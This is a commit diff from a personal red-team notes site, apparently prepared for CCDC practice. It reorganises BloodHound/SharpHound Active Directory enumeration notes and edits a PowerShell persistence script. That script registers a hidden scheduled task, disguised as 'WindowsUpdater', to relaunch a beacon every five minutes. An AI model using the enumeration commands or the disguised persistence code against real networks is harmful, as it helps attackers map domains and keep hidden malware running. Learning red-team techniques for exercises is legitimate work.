

Before and after one commit to KhaelK138/KhaelK138.github.io, a Jekyll site: the page built from markdown/ADExploitation.md, in a window 1280 px wide and 900 px high, scrolled down 1739 px. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
updated bloodhound notes and fixed scheduled task persistence

```diff
--- a/markdown/ADExploitation.md
+++ b/markdown/ADExploitation.md
@@ -76,44 +76,51 @@
   - PoC: [https://github.com/testanull/ProxyNotShell-PoC](https://github.com/testanull/ProxyNotShell-PoC)
 
 ## Enumerating the Domain with BloodHound/SharpHound
-- Capturing the system data with SharpHound:
-	- [SharpHound](https://github.com/SpecterOps/SharpHound/releases/latest)
-		- Confirmed version 1.1.1 for kali's default 4.3.1 bloodhound (legacy)
-    		- Upon further testing, it seems sharphound 2.6.5 works with bloodhound 4.3.1 (https://github.com/SpecterOps/BloodHound-Legacy/releases/tag/v4.3.1)
-		- `Invoke-WebRequest {url} -Outfile {outfile}; Expand-Archive {outfile}`
-		- Use with `Import-Module .\SharpHound.ps1`
-	- `Invoke-BloodHound -CollectionMethod All -OutputDirectory {dir} -OutputPrefix {filename_prefix}`
-	- Look at misc notes for getting the file off of the system
+
+**Capturing the system data with SharpHound:**
+- [SharpHound](https://github.com/SpecterOps/SharpHound/releases/latest)
+  - If we can't update kali's bloodhound, Sharphound version 1.1.1 works with kali's default 4.3.1 bloodhound (legacy)
+- Install on Windows system and unzip
+  - `Invoke-WebRequest {url} -Outfile {outfile}; Expand-Archive {outfile}`
+  - Use with `Import-Module .\SharpHound.ps1`
+    - `Invoke-BloodHound -CollectionMethod All -OutputDirectory {dir} -OutputPrefix {filename_prefix}`
+- Look at misc notes for getting the file off of the system
 - Can also be run from kali
+  - Newest version for BloodHound CE:
+    - `apt install bloodhound` - installs latest BloodHound CE GUI
+      - run GUI with `bloodhound`
+    - `pipx install bloodhound-ce` - installs latest `bloodhound-ce-python`
+      - run collection with `bloodhound-ce-python -u {user} -p {password} -d {domain} -ns {IP} -c all`
+  - Legacy version (for kali default):
     - `nxc ldap {dc} -u {username} -p {password} --bloodhound --collection All --dns-server {dns_server_ip}`
-	- `apt install bloodhound`
-	- `pip install bloodhound`
-	- `bloodhound-python -u {user} -p {password} -d {domain} -ns {IP} -c all`
-- Analyzing the data with BloodHound
-	- Use neo4j on kali machine - `sudo neo4j start`
-		- If not installed, just run `neo4j` and install the suggested option
-		- Go to localhost:7474 in the browser, set a new password
-	- Now we can run `bloodhound`
-		- Sign in with new password set
-		- Upload the SharpHound zip folder using button on right
-	- This will show all data collected AS THE CURRENT USER
-		- It will have no idea if other users have local admin access on other workstations, only current user
+    - `pipx install bloodhound`
+        - run collection with `bloodhound-python -u {user} -p {password} -d {domain} -ns {IP} -c all`
+
+**Analyzing the data with BloodHound**
+- Use neo4j on kali machine - `sudo neo4j start`
+  - If not installed, just run `neo4j` and install the suggested option
+  - Go to localhost:7474 in the browser, set a new password
+- Now we can run `bloodhound`
+  - Sign in with new password set
+  - Upload the SharpHound zip folder using button on right
+- This will show all data collected AS THE CURRENT USER
+  - It will have no idea if other users have local admin access on other workstations, only current user
 - Analysis
-    - To perform analysis on newer versions of BloodHound CE, click the file browse button next to the Cypher query
-	- Queries:
-		- All computers: `MATCH (m:Computer) RETURN m`
-		- All users: `MATCH (m:User) RETURN m`
-		- Active sessions: `MATCH p = (c:Computer)-[:HasSession]->(m:User) RETURN p`
-		- Get all hostnames (for massive internal networks): `./cypher-shell -u neo4j -p {password} 'MATCH (c:Computer) WHERE toLower(c.name) ENDS WITH ".example.domain.tld" RETURN c.name' --format plain | tee hostnames.txt`
-	- Interesting paths:
-		1. Paths to high value targets from owner users (or even paths to other users)
-		2. Outbound object control of common groups
-		3. Find Workstations where Domain Users can RDP
-		4. Find Servers where Domain Users can RDP
-		5. Find Computers where Domain Users are Local Admin
-		6. Shortest Path to Domain Admins from Owned Principals
-		7. List Kerberoastable users
-		8. User SPNs (what can certain users access)
+  - To perform analysis on newer versions of BloodHound CE, click the file browse button next to the Cypher query
+- Queries:
+  - All computers: `MATCH (m:Computer) RETURN m`
+  - All users: `MATCH (m:User) RETURN m`
+  - Active sessions: `MATCH p = (c:Computer)-[:HasSession]->(m:User) RETURN p`
+  - Get all hostnames (for massive internal networks): `./cypher-shell -u neo4j -p {password} 'MATCH (c:Computer) WHERE toLower(c.name) ENDS WITH ".example.domain.tld" RETURN c.name' --format plain | tee hostnames.txt`
+- Interesting paths:
+  1. Paths to high value targets from owner users (or even paths to other users)
+  2. Outbound object control of common groups
+  3. Find Workstations where Domain Users can RDP
+  4. Find Servers where Domain Users can RDP
+  5. Find Computers where Domain Users are Local Admin
+  6. Shortest Path to Domain Admins from Owned Principals
+  7. List Kerberoastable users
+  8. User SPNs (what can certain users access)
 
 ## Password Attacks
 
--- a/scripts/windows_persistence.ps1.txt
+++ b/scripts/windows_persistence.ps1.txt
@@ -12,9 +12,9 @@
 # 1. Create scheduled task (5-minute interval)
 Write-Host "[+] Creating scheduled task persistence..."
 $action = New-ScheduledTaskAction -Execute $beaconPaths[0]
-$trigger = New-ScheduledTaskTrigger -Once -At (Get-Date) -RepetitionInterval (New-TimeSpan -Minutes 5)
+$trigger = New-ScheduledTaskTrigger -Once -At (Get-Date).AddMinutes(1) -RepetitionInterval (New-TimeSpan -Minutes 5) -RepetitionDuration (New-TimeSpan -Days 365)
 $settings = New-ScheduledTaskSettingsSet -Hidden -AllowStartIfOnBatteries -DontStopIfGoingOnBatteries
-Register-ScheduledTask -TaskName "WindowsUpdate" -Action $action -Trigger $trigger -Settings $settings -Force
+Register-ScheduledTask -TaskName "WindowsUpdater" -Action $action -Trigger $trigger -Settings $settings -Force
 
 # 2. Registry Run Key (runs on login)
 Write-Host "[+] Creating registry run key persistence..."
```
Also changed, not shown: markdown/RedTeamingCCDC.md (+1 -1 lines).
